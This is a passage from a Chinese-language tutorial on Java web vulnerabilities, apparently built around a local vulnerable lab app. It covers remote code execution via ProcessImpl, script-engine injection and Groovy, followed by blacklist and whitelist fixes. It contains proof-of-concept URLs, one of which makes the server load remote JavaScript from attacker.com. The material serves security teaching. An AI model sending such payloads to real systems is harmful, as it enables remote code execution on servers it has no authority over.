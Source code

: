 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756363033093-b4a3f622-53bf-41d3-b174-3d3f242566e7.png)

3. ProcessImpl方式

ProcessImpl是更为底层的实现，Runtime和ProcessBuilder执行命令实际上也是调用了ProcessImpl这个类：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756363172886-7f743982-c291-487d-a3d8-1b4621644625.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/RCE/ProcessImpl/vul?cmd=whoami
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756363221205-d6be36ea-d54c-4b11-9664-762176116248.png)

4. 脚本引擎代码注入

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756364075927-93cf2cf1-4daf-43bb-9d9b-b2545df4e96d.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/RCE/ScriptEngine/vul?url=http://attacker.com/java/1.js
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756364179515-7b833430-8b77-41d5-a3ee-f06c6fceb181.png)

5. Groovy执行命令

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756365578122-ce6515e1-ed0c-41d7-8dfa-3ebf7f9bd8b2.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/RCE/Groovy/vul?cmd="cmd /c start calc".execute()
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756365809733-4eed7193-7790-40ba-833f-28049c2b0760.png)

### 修复意见
1. 黑名单

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756366052949-6e13eaeb-7705-42e6-8357-8170832a1fa4.png)

2. 白名单

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756366088581-510fb93b-b357-4ec6-b445-4d90f66d62ad.png)

## XSS
### 反射型
#### 漏洞成因
1. 输出未转义
